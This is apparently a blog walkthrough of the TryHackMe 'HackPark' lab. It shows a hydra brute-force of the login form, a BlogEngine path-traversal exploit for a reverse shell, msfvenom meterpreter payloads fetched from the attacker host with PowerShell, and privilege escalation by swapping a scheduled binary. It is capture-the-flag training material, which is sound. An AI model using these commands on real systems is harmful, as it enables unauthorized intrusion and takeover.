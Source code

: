 ```yaml
---
slug: hackpark-walkthrough
title: TryHackMe - HackPark - Walkthrough
authors: bw
tags: [learning, hackpark, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [HackPark][hackpark]. Let’s get started!
<!-- truncate -->

# Deploy Machine
First step is to deploy the machine! **NOTE:** This machine took about 3 minutes to fully boot up for me.

Then navigate to the website:

![h1](/img/thm/hackpark/h1.webp)

The picture is of a clown from a pretty famous movie. You could do a reverse image search on this if you don’t know the name, but I happen to know the name so I will just answer the question.

# Using Hydra
If we read through the next section we are looking for a Login page. This can be found on the menu button in the top right, and clicking **LOG-IN**

We also need to figure out what type of request this form is making in order to answer the next question.

Let’s run `hydra` against the log-in page. First we need to gather some information:

**Username:** We will use `admin` in this case
**Wordlist:** `rockyou.txt`
**URL:** `http://10.10.253.80/Account/login.aspx`
**POST parameters:** Let’s get these!

In order to get the POST parameters, let’s login with just `admin` and a random password. (I used `test1`). This will give use a POST request sent to the server. Now, let’s inspect the page.

First we need to go to **Network**, and click on the POST request. On the right-hand side, you will see **Resend**. Click on this and select **Edit and Resend**.

![h2](/img/thm/hackpark/h2.png)

From there, we can view the **Request Body** that is being sent to the server. Copy that whole thing and now we can configure our hydra attack.

![h3](/img/thm/hackpark/h3.png)

In this **Request Body**, we need to look for our `admin` and `test1` login and password that we used. We will replace those with `^USER^` and `^PASS^`, respectively. Lastly, we need something to tell hydra when a login attempt **didn’t** work. If we look at the login page when we tried to login previously, we see a “Login failed”. We can use that as our third parameter.

Advertisement

This hydra command is formatted like this:

`hydra -l <user_we_want_to_use> -P <wordlist> <ip> <request_method> '<page_to_attack>:<request_body_to_send_with_parameters>:<failed_notification>'`

Our `hydra` command will be something close to the following:

```bash
hydra -l admin -P ../rockyou.txt 10.10.253.80  http-post-form '/Account/login.aspx:__VIEWSTATE=I3MnpaPIRlkVeH4Kqrvda70AlTlHWpL7b8f3WLwFpdvduY8pg%2FR1KTlj85jTd1HyGNjf62TlDb63aZEhX60AcedUrAFssR0%2F2yq9HgfwhFkNK8lJzqzskyZ52KDSjg5gjbOhz3ke5TnvkzukBIkvgzGzGBqzkiyHRR8bZ6xWltRXOBkS8GomTXvkwVCTpWlKEypbzaZOWME%2BQjrbYQXOktLM8AMOV636Owd%2BwLD6NDYBZYiJs9fLFWVD%2F8GjdQdZukSWV3nPr9SEwGwLhqs%2BgOZT4H8p4SzdXk4sLahpDwygg1HKrbWh5We5Zepu9MRaR87i5pgDFuR0ZVo5QDECFRj%2BAVNQ9sjMu5FiqK62eNJAYEmp&__EVENTVALIDATION=EdyUhLFMjYGwbQuLybR9Bk4empok7oCUscNJn6WrxKizHeT7YhJHGNy%2BXB0Qoq8%2FhKHgGQRO24pmf81EejDPhbhuLgjZSExvSE6MGh4wBW9TEtIufI5vsgCmblpg5xNIcTRefmM%2BCGKT2V68xMx4RTUZ77NQy4gJmmc7GQj5GAckN12s&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Letting hydra run, we get a successful attempt!

![h4](/img/thm/hackpark/h4.webp)

# Compromise the Machine
Now that we are logged in as `admin`. Navigate to **Admin** > **About** to find the version number.

From here we can go to [Exploit Database][exdb] to find an exploit! There are a few listed, but let’s use this one: [Link][exploit]. (Find the CVE here).

Now reading through the exploit, we need to upload it onto the server. The exploit states how to do this:

>First, we set the TcpClient address and port within the method below to our .>attack host, who has a reverse tcp listener waiting for a connection. Next, we >upload this file through the file manager. In the current (3.3.6) version of >BlogEngine, this is done by editing a post and clicking on the icon that looks >like an open file in the toolbar. Note that this file must be uploaded as >PostView.ascx. Once uploaded, the file will be in the /App_Data/files directory >off of the document root. The admin page that allows upload is: 
>
>`http://10.10.10.10/admin/app/editor/editpost.cshtml`
>
>Finally, the vulnerability is triggered by accessing the base URL for the blog >with a theme override specified like so:
>
>`http://10.10.10.10/?theme=../../App_Data/files`

Let’s follow those instructions! First, copy the “raw” over to your attack machine. Make sure to change the IP to your attack machine IP. (`tun0` if you run `ip a` or `ifconfig`). Also make sure to save the file as `PostView.ascx`.

Let’s go and upload the file. Navigate to **Content** > **Posts** > **Select Post** > **Open Folder Icon** > **Select exploit file** > **Save**

![h5](/img/thm/hackpark/h5.webp)

Now let’s start a netcat listener for the shell to come back to. Open a new terminal windows on attack machine and type: `nc -nvlp 4445`

Navigate to the folder: `http://10.10.253.80/?theme=../../App_Data/files`

View your terminal, and we see a shell!

![h6](/img/thm/hackpark/h6.png)

# Windows PrivEsc
Let’s generate a payload using `msfvenom` in order to get a meterpreter shell.

In a new terminal window generate the payload with the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<THM_ip> LPORT=4446 -f exe -o win_shell.exe
```

Once your payload is generated, we need to upload it. In the folder where you created your payload, open a Python http server with: `python3 -m http.server 80`

Back in the victim machine shell, use the following command to download the payload on to the server:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/win_shell.exe' -OutFile 'c:\windows\temp\win_shell.exe'
```

Before we can execute the file, we need to have a listener open. For this we will use metasploit:

```bash
msfconsole
use exploit/multi/handler
set lhost tun0
set lport 4446
set payload windows/meterpreter/reverse_tcp
run
```

Now that our listener is running, execute the file: `win_shell.exe`

We have our meterpreter shell!

![h7](/img/thm/hackpark/h7.png)

Let’s gather info:

`sysinfo` (OS answer)
`ps` (Abnormal service answer)

Navigate to `C:\Program Files (x86)\SystemScheduler\Events` to find the binary.

We found our binary, now lets create a payload under that binary:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_ip> LPORT=4447 -f exe -o Message.exe
```

Download that file onto the server using the same method we did previously:
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```

Once that is complete, background your current metasploit session, and set the multi/handler options to utilize the new port 4447. Once you run that, a session should come up.

`getuid` shows that we are now `Administrator`

![h8](/img/thm/hackpark/h8.png)

Let’s navigate to Jeff’s Desktop and get the flag!

![h9](/img/thm/hackpark/h9.png)

And then get the root flag:

![h10](/img/thm/hackpark/h10.png)

# PrivEsc without Metasploit
This section I will leave for you to do by yourself. It is similar to the Metasploit, but instead of using Metasploit, you will use netcat listener to get the shell instead of the Metasploit multi/handler. The room does a good job of walking you through the process. You will also use [winPEAS][winpeas] to enumerate the system.

Review
This room was a more intermediate level room that still walked you through some steps, but not everything. I liked that it didn’t hand hold throughout the entire process, and it still left some research, previous knowledge up to the person doing it. Overall, it was a great room that I highly recommend!

References
[TryHackMe][thm] | [HackPark Room][hackpark] | [Exploit Database][exdb] | [Exploit][exploit] | [winPEAS][winpeas]

[thm]: https://tryhackme.com
[hackpark]: https://tryhackme.com/why-subscribe?roomCode=hackpark
[exdb]: https://www.exploit-db.com
[exploit]: https://www.exploit-db.com/exploits/46353
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS